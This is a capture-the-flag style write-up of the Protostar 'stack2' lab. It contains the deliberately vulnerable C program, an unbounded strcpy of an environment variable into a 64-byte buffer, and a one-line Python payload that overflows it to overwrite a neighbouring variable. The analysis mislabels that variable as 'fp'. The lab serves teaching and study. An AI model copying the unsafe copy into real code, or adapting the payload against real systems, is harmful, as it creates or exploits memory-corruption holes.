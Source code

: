 ```yaml
---
title: "stack2"
date: "2023-05-16"
site: https://exploit.education/protostar/
---
```


`/opt/protostar/bin/stack2`

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Analysis

We need to overwrite fp to be `0x0d0a0d0a`.

This requires us to set the `env` variable `GREENIE`.

## Exploit

```bash
export GREENIE=$(python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")')
./stack2
```
